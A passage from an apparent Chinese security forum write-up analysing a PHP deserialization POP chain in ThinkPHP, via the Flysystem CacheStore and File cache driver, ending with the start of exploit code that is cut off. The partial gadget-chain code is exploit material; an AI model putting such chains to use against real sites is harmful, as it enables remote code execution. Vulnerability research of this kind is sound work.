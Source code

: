 ![image.png](https://shs3.b.qianxin.com/attack_forum/2022/01/attach-4f659353a6b2d357f6450485aee9d15d3fb52d10.png)

返回`json`格式数据后，再回到`save`方法的`set`方法

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/01/attach-64a8972d2a071c032bc6aaa3b23821aa6ed21690.png)

#### 分支1

这里我一开始想的是去触发一个`__call`

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/01/attach-67e5909711c3e25b66d04e8983aa3362a0eff4a7.png)

因为`store`我们显然可控，更改为一个不含`set`方法的类就可以触发`__call`方法了

上一个POP链中的第二处的利用点好像也可以利用，去看了一下那个类里也没写`set`方法，应该能成

#### 分支2

实际上，我看大师傅们在这里好像都去找了可利用的`set`方法，可能是因为`set`方法存在的比较普遍

这里可以定位到一个`src/think/cache/driver/File.php`处的`set`方法

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/01/attach-715baf16dd4f60ce88b31c8f8fec0f929af44517.png)

跟一下这里的几个方法

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/01/attach-5d3b1025aa98294fecbfa13fc64dddff91cf1194.png)

可以发现这里没什么可以利用的点

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/01/attach-2a5478d62fcd3cb2947f69456bf6f851ad16cff6.png)

这里首先是一个很明显的可以利用的点，字符拼接！

##### 分支2.1

这里的`options['path']`显然是我们可控的，那这里和POP1里一样，去找可以利用的`__toString`就可以了！！

我们可以直接去利用POP1里的那一条

```php
<?php

namespace League\Flysystem\Cached\Storage {
    abstract class AbstractCache
    {
        protected $autosave;
        public function __construct()
        {
            $this->autosave = false; //进if，进到save方法
        }
    }
}

namespace think\filesystem {

    use League\Flysystem\Cached\Storage\AbstractCache;
    use think\cache\driver\File;
    //这里是实现save方法的类
    class CacheStore extends AbstractCache
    {
        protected $store;
        protected $expire;
        protected $key;
        public function __construct()
        {
            $this->store = new File(); //还是因为不能实例化抽象类，要找一个它的子类来实例化，实际上就是要去利用我们发现的那处字符拼接
            $this->expire;
```